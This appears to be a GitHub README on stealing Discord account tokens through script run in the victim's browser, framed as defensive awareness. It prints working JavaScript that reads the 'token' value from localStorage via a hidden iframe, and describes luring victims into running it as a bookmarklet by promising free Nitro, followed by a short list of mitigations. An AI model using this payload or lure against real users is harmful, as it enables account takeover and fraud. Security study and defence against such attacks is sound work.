

# Discord Token Stealing via XSS

This document describes how Cross-Site Scripting (XSS) could lead to exposure of client-side data such as tokens stored in the browser's `localStorage`. It is intended for defensive learning and awareness, not for exploitation.

> Warning: Do not attempt to reproduce attacks. This content is for understanding risk and implementing mitigations only.


## Description
This attack can be performed by stealing a Discord token stored in the browser's `localStorage`. To execute this, JavaScript code must be run in the victim's browser. There are two primary methods to achieve this:

1.  **Man-in-the-Middle (MITM) Attack:** This involves intercepting network traffic to inject malicious code.
2.  **Social Engineering:** This method, which we will discuss further in this repository, requires convincing the victim to execute the JavaScript code themselves. This approach necessitates certain social engineering skills.

This repo will explain the Social Engneering way.

## Payload
Discord Saves token account in localstorage in 'token' key.</br>
In discord the window object stored in any child inside body in `contentWindow`.</br>
from `contentWindow` we can get the `localStorage`.</br>
```
const iframa = document.createElement('iframe');
iframa.style.display = 'none'
document.body.appendChild(iframa);
const token = iframa.contentWindow.localStorage.getItem('token')
console.log(token);
iframa.remove();
```


## Key Takeaways
- Notice how the Token appear in phone rosolution only
  
- chrome will warn you if you want to paste any js code
  
  But attacker can use bookmark to trick victum and put the code in the bookmark url.</br>
  This can be achieved by convincing the victim that this trick will give you nitro.
  
- Attacker POV after stealing the token
  
  

## Mitigations

- Use Content Security Policy (CSP) to limit script execution
- Avoid storing sensitive tokens in `localStorage`; prefer HttpOnly secure cookies with appropriate SameSite attributes
- Regular security training and secure coding practices
- If your token is stolen, you can log out of all devices and it will be reset.


